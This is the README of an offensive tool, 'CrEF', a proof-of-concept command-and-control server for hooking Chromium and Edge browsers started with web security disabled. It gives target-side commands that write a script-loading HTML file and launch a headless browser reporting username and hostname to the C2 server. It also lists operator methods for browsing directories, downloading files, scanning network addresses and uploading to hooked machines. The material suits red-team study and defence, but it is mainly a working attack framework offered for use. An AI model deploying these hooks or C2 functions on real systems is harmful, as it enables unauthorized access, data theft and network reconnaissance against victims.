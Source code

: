 # CrEF - Chromium Exploitation Framework

<div align="center">
	<img src="./assets/CrEF-logo.png" alt="CrEF-logo" title="CrEF-logo" />

---

</div>

> **Author**::      TW-D
>
> **Version**::     1.0.0

## DESCRIPTION

Proof of concept of a command and control server enabling hooking of Chromium-based browsers launched with the **--disable-web-security** flag.

## TESTED ON

>
> **Microsoft Windows 10 Professionnel 22H2 and Microsoft Edge 132**
>
> *%USERPROFILE%\AppData\Local\Microsoft\Edge\User Data\Default*
>

>
> **Ubuntu 22.04.5 LTS and Chromium 132/133 (snap)**
>
> *"${HOME}/snap/chromium/common/chromium/Default"*
>

## INSTALLATION

For Debian-based Linux distributions.

```bash
hacker@hacker-computer:~$ sudo apt-get install ruby ruby-dev php8.3-cli
hacker@hacker-computer:~$ sudo gem install tty nokogiri
```

## USAGE

This step is strongly recommended ; it is advised to rename the default folder "./www/**data-U2lsZW5jZSBpcyBnb2xkZW4K**/" by following the steps below.

```bash
hacker@hacker-computer:~/CrEF$ cd ./www/
hacker@hacker-computer:~/CrEF/www$ mv ./data-U2lsZW5jZSBpcyBnb2xkZW4K/ ./data-"$(< /dev/urandom tr -cd 'A-Za-z0-9' | head -c 32)"/
```

The hooked browsers must communicate with a web server; PHP was deliberately chosen for its popularity.

```bash
hacker@hacker-computer:~/CrEF$ php -d memory_limit=2G -d post_max_size=1G -d max_execution_time=300 -d upload_max_filesize=1G -S 0.0.0.0:8000 -t ./www/
```

After renaming the directory "./www/**data-U2lsZW5jZSBpcyBnb2xkZW4K**/" and starting the web server, you will also need to manually update the values in the **./cli.rb** *(line 3)*, **./www/index.php** *(lines 11 and 12)* and **./payloads/targets_list.rb** *(line 3)* files.

>
> Steps to hook a Microsoft Edge browser on Microsoft Windows:
>

```batch
C:\Users\target> ECHO ^<body^>^<script src="http://127.0.0.1:8000/index.js"^>^</script^> > %TMP%\x.html

C:\Users\target> msedge --disable-web-security --headless --no-first-run --user-data-dir="%TMP%" "file:///%TMP%\x.html?u=%USERNAME%&c=%COMPUTERNAME%"
```

>
> Steps to hook a Chromium browser on Debian-Based Linux distributions:
>

```bash
target@target-computer:~$ wget --quiet --output-document="-" http://127.0.0.1:8000/ > ./x.html
target@target-computer:~$ # OR
target@target-computer:~$ echo "<body><script src=\"http://127.0.0.1:8000/index.js\"></script>" > ./x.html

target@target-computer:~$ chromium --disable-web-security --headless --no-first-run --user-data-dir="/tmp/${RANDOM}/" "file://${HOME}/x.html?u=${USER}&c=$(hostname)"
```

> [!NOTE]
> *127.0.0.1* is a sample address used for local testing.

### CLI MODE

To command and control the hooked browsers, a CLI version is available. You can run this command to get started:

```bash
hacker@hacker-computer:~/CrEF$ ruby -W0 ./cli.rb
```

#### SCREENSHOT

![CrEF-cli](./assets/CrEF-cli.png "CrEF-cli")

### SCRIPTING MODE

For more precise actions, a SCRIPTING version is also available by loading the library **./lib/command_control.rb** and leveraging its methods along with programming.

```bash
hacker@hacker-computer:~/CrEF$ cd ./payloads/
hacker@hacker-computer:~/CrEF/payloads$ ruby -W0 ./targets_list.rb
[{"target_status"=>"🟢",
  "session_id"=>1,
  "remote_address"=>"127.0.0.1",
  "computer_name"=>"target-computer",
  "user_name"=>"target",
  "platform_name"=>"Linux",
  "last_seen"=>"05/13/2025 03:29:17 PM"}]
[...]
```

> [!NOTE]
> The *./targets_list.rb* file is a sample helper file.

#### METHODS

```ruby
# Loads the list of targets by parsing JSON files found in the data directory.
#
# @return [Array<Hash>] Returns an array of hashes representing target sessions with their information (excluding user_agent).
def load_targets

# Loads the data for a specific target session.
#
# @param target_session [Hash] A hash containing session information, including 'remote_address' and 'computer_name'.
# @return [Boolean, Hash] Returns a hash with the target data if the file exists, otherwise false.
def load_target(target_session)

# Loads the HTML tree structure for a specific target session.
#
# @param target_session [Hash] A hash containing session information, including 'remote_address' and 'computer_name'.
# @return [Array<Array>] Returns an array of arrays with details for each row of the HTML table (type, link, size, date).
def load_tree(target_session)

# Sends a command to access a specific URL within the target session.
#
# @param target_session [Hash] The target session hash.
# @param destination_url [String] The URL to access.
# @return [Boolean, String] Returns false if the command could not be loaded, or the path to the temporary file otherwise.
def access_url(target_session, destination_url)

# Sends a command to browse a specific directory within the target session.
#
# @param target_session [Hash] The target session hash.
# @param source_directory [String] The directory path to browse.
# @return [Boolean, String] Returns false if the command could not be loaded, or the path to the temporary file otherwise.
def browse_directory(target_session, source_directory)

# Sends a command to download a specific file from the target session.
#
# @param target_session [Hash] The target session hash.
# @param source_file [String] The full path to the file to download.
# @return [Boolean, String] Returns false if the command could not be loaded, or the path to the temporary file otherwise.
def download_file(target_session, source_file)

# Sends a command to scan a network address from the target session.
#
# @param target_session [Hash] The target session hash.
# @param destination_address [String] The network address to scan.
# @return [Boolean, String] Returns false if the command could not be loaded, or the path to the temporary file otherwise.
def scan_address(target_session, destination_address)

# Sends a command to upload a URL to the target session.
#
# @param target_session [Hash] The target session hash.
# @param source_url [String] The URL to upload.
# @return [Boolean, String] Returns false if the command could not be loaded, or the path to the temporary file otherwise.
def upload_url(target_session, source_url)
```

## LICENSE

[![License: MIT](https://img.shields.io/badge/License-MIT-yellow.svg?style=flat&logo=GitHub&labelColor=1D272B&color=819188&logoColor=white)](./LICENSE-MIT)
[![License: Apache 2.0](https://img.shields.io/badge/License-Apache%202.0-blue.svg?style=flat&logo=GitHub&labelColor=1D272B&color=819188&logoColor=white)](./LICENSE-APACHE)

Licensed under either of [Apache License Version 2.0](./LICENSE-APACHE) or [The MIT License](./LICENSE-MIT) at your option.

## COPYRIGHT

© 2025, [TW-D](https://github.com/TW-D)